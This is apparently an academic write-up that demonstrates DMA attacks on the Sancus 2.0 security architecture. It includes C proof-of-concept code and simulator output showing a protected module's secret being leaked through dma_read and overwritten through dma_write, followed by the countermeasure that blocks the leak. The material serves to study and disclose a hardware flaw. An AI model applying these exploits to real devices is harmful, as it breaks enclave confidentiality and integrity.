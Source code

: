 # Exploitation of Naive DMA Support
A simple example of how security guarantees are invalidated when DMA support is naively implemented on Sancus 2.0. If no memory access control is enforced on the DMA bus, it can access to the whole system memory, including protected sections. An attacker can exploit this vulnerability to leak secret data or inject malicious code into the module. \\ \autoref{lst:hello_sm} shows a simple Sancus software module \textit{"Hello"}: the macros \texttt{SM\_ENTRY(name)}, \texttt{SM\_FUNC(name)} and \texttt{SM\_DATA(name)} are respectively used to annotate modules entry points, functions or data. In brief, they take as input the name of the intended module, and attach some attributes\footnote{The attribute mechanism allows a developer to attach extra information (metadata) to language entities with a generalized syntax, instead of introducing new syntactic constructs or keywords for each feature. This information is intended to be used by the compiler, improving the quality of diagnostics produced by an implementation or specifying platform-specific behaviour~\cite{c_attributes}.} to the entity they are associated with (data, function or entry point), so that the Sancus compiler can include those in the module protected sections. \texttt{DECLARE\_SM(name, vendor\_id)}, instead, is used to declare a Sancus module. 

```
/* ======== HELLO WORLD SM ======== */
DECLARE_SM(hello, 0x1234);
#define HELLO_SECRET_CST    0xC1A0

int       SM_DATA(hello) *hello_secret;
int const SM_DATA(hello)  hello_const = HELLO_SECRET_CST;

void SM_FUNC(hello) hello_init(void)
{
    /* Confidential loading guarantees secrecy of constant in text section. */  
    hello_secret = (int*)(hello.data_section_start+OFFSET);
    *hello_secret = hello_const;
    ASSERT(*hello_secret == HELLO_SECRET_CST);
}

void SM_ENTRY(hello) hello_greet(void)
{
    hello_init();
    pr_info2("Hi from SM with ID %d, called by %d\n", sancus_get_self_id(), sancus_get_caller_id());
    pr_info2("Internally accessing to my secret: %.4x at addr.: 0x%.4x \n",*hello_secret, hello_secret);	
}

void SM_ENTRY(hello) hello_disable(void)
{
    sancus_disable(exit_success);
}
```



## Leak Secret Data
In the example provided the value of a secret constant is stored in the data section, at a known offset, for the sake of simplicity: in this way the DMA attack is carried in one shot. Though in a real-case scenario it's unlikely for the attacker to know the exactly location of the secret data, it is reasonable to assume that some analysis are carried on over the module to be broken, thus the example it's still valid. Finally, it is to be noticed that the values of start and end addresses of SMs text and data sections can be read from unprotected code.\\

```
int main()
{
    uint16_t start_dma;
    uint16_t disclosed_secret;
	
    msp430_io_init();
    sancus_enable(&hello); //Enable memory protection
	
    hello_greet(); //Module's function, automatically accessed from the unprotected code through the entry point

	
	/* ============== USING DMA ================ */
    start_dma = (uint16_t)(hello.data_section_start+OFFSET);
    pr_info("DMA illegal access to the secret data from unprotected code \n"); 

    //void dma_read (start_addr, num_of_words, *save_data)    
    dma_read(start_dma, 1, &disclosed_secret);
    pr_info2("Hello secret is: 0x%.4x at address: 0x%.4x \n", disclosed_secret, start_dma);
	/* ========================================= */
}
```

```
New SM config: 7130 7304 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: b0c4cc0fb9ce3806
SM hello with ID 1 enabled	: 0x7130 0x7304 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA illegal access to "Hello" secret from unprotected code 

[main.c] Hello secret is: 0xC1A0 at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```

After entering the main function, the memory protection for the "Hello" module is enabled. Then, the **hello_greet() is called, which initialises the secret data and sends a greeting to the reader. \\ The execution continues by configuring a DMA read operation from the main.c. The DMA read function inputs are: (1) the starting address, which is set with the start of data section shifted of the know offset, so that it directly points to the desired secret data; (2) the number of words to be read, set equal to one in this case; (3) the address of an unprotected memory location to where store the read data. Once the DMA operation has completed, the secret value \textsl{0xC1A0} is leaked and stored and printed from code in the unprotected memory. The output produced by the main.c is shown in (\autoref{lst:prints_on_terminal}). \\
As a final remark, \autoref{lst:prints_on_terminal_PROTECTION} shows what happens when the same code from \autoref{lst:hello_sm} and \autoref{lst:main_attack} is run on Sancus with memory access control enforced over DMA accesses: a violation is internally raised and the content of the secret data is not leaked. An interrupt request can be set so that more specific countermeasure can be taken when a DMA violation is detected; an example of DMA ISR is provided in \autoref{lst:DMA_ISR}.\\

```
New SM config: 7130 7304 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: b0c4cc0fb9ce3806
SM hello with ID 1 enabled	: 0x7130 0x7304 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA illegal access to "Hello" secret from unprotected code 

[main.c] Hello secret is: 0x0000 at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```
```
__attribute__((interrupt(DMA_IRQ))) 
void dma_violation_isr(void)
{
    puts("\t--> DMA VIOLATION IRQ; exiting...\n");
    EXIT();
    
    pr_info("should never reach here..");
    while(1);
}
```

## Inject Malicious Data or Code
Another possible attack implies the injection of malicious code or data into SMs protected sections. The SM considered is still the \textit{"Hello"} module from the previous example (\autoref{lst:hello_sm}). The only difference is that the SM \texttt{hello\_init()} function is now explicitly called only once right after the protection mechanism has been enabled, and not every time the \texttt{hello\_greet()} is entered. To this extent, its attribute is modified from SM\_FUNC to SM\_ENTRY. This is necessary, in order to prevent that the injected malicious message is simply overwritten before being printed by the greeting function. \autoref{lst:main_attack_write} shows the main.c, as framework for the attack.

```
int main()
{
    uint16_t start_dma;
	uint16_t data_to_send;
	
    msp430_io_init();
    sancus_enable(&hello); //Enable memory protection
	
    hello_init();  //Now defined as: void SM_ENTRY(hello) hello_init(void)
    hello_greet(); //Module's function, automatically accessed from the unprotected code through the entry point
	/* ============== USING DMA ================ */
    start_dma = (uint16_t)(hello.data_section_start+OFFSET);
    data_to_send = 0xBEEF;
	puts("DMA injecting external data into SM data section \n"); 
	
	//void dma_write(start_addr, num_of_words, *data_to_send);
	dma_write(start_dma, 1, &data_to_send);
	/* ========================================= */
	
	hello_greet(); 
}
```
After the greeting message has printed, to show that initialization has correctly occurred, the real attack can starts, by configuring the DMA write function. It takes three inputs: (1) a starting address pointing to the initial memory location where the external data are going to be written; (2) the number of words involved in the operation; (3) the first memory location where data resides. As for the previous example, the writing address is still set to a known offset in the data section. Then, the malicious greeting message \texttt{0xBEEF} is injected and the execution of the main function proceeds by calling the SM \texttt{hello\_greet()} again, to show that a tempering occurred (\autoref{lst:prints_on_terminal_write}). \\

\smallskip

```
New SM config: 7124 72ea 029c 03a6, 1
Vendor key: 4078d505d82099ba
...................................................................
SM key: ed151c6be5efda74
SM hello with ID 1 enabled	: 0x7124 0x72ea 0x029c 0x03a6
[main.c] Hi from SM with ID 1, called by 0
[main.c] Internally accessing to my secret: 0xC1A0 at address: 0x02a3 
[main.c] DMA injecting external data into SM data section 

[main.c] Hi from SM with ID 1, called by 0
[Hello.c] Internally accessing to my secret: 0xBEEF at address: 0x02a3 
SM disabled
[main.c] SM disabled; all done!
 ===============================================
|               SIMULATION PASSED               |
 ===============================================
```
